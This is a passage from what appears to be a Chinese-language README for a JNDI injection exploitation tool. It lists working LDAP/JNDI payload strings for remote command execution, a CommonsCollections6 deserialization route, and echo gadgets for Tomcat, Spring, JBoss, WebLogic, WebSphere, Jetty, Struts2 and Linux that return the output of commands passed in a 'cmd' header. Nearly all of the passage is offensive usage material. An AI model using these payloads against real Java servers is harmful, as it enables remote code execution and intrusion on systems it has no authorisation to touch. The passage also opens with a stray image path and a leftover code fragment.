 ```java
            e.printStackTrace();
        }
    }
}
```

</details>

+ 对于路由完全不可控的情况下，从http处获取

```shell
jndi:ldap://127.0.0.1:1389/
```

```shell
http://127.0.0.1:3456/setRoute?a=Deserialization/CommonsCollections6/command/Base64/d2hvYW1p
```

![](https://gallery-1304405887.cos.ap-nanjing.myqcloud.com/markdown%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20230706103914.png)

* 目前支持的所有 ```Echo``` 为
  * ```Bypass```: 用于rmi本地工厂类加载，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```TomcatEcho```: 用于在中间件为 ```Tomcat``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami```
    的方式传递想要执行的命令
  * ```SpringEcho```: 用于在框架为 ```SpringMVC/SpringBoot```
    时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```JbossEcho```: Jboss 命令执行回显, 通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```WeblogicEcho```: weblogic 命令执行回显, 通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```WebsphereEcho```: websphere 命令执行回显, 通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```ResinEcho```: Resin 命令执行回显, 通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```JettyEcho```: Jetty7,8,9版本命令执行回显, 通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```WindowsEcho```: Windows 命令执行回显, 只执行了whoami
  * ```Struts2Echo```: Struts2 命令执行回显, 通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```LinuxEcho1```: Linux 命令执行回显, 只执行了id，
    + 原理是遍历当前进程 fd 目录下的所有和 socket 相关的 fd 文件，并输出结果;
    + 缺陷：1. 会影响同一时间点所有访问网站的用户（也会看到自定义回显的结果）; 2. 在8次左右有可能导致应用崩溃
  * ```LinuxEcho2```: Linux 命令执行回显, 只执行了id
    + 原理：通过延迟等方法来确定唯一正确的 fd 文件;
    + 不会影响访问网站的其他用户，也不会导致应用崩溃;
  * ```AllEcho```: 自动选择命令执行回显, 通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```command```：用于执行命令，如果命令有特殊字符，支持对命令进行 Base64编码后传输

+ 直接命令执行示例：

```
ldap://127.0.0.1:1389/TomcatBypass/command/Base64/[base64_encoded_cmd]
```

+ Echo示例：

```
jndi:ldap://127.0.0.1:1389/TomcatBypass/TomcatEcho
jndi:ldap://127.0.0.1:1389/Basic/TomcatEcho
```

效果图：


[//]: # (进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径，程序会尝试自动缩减类字节码的大小。)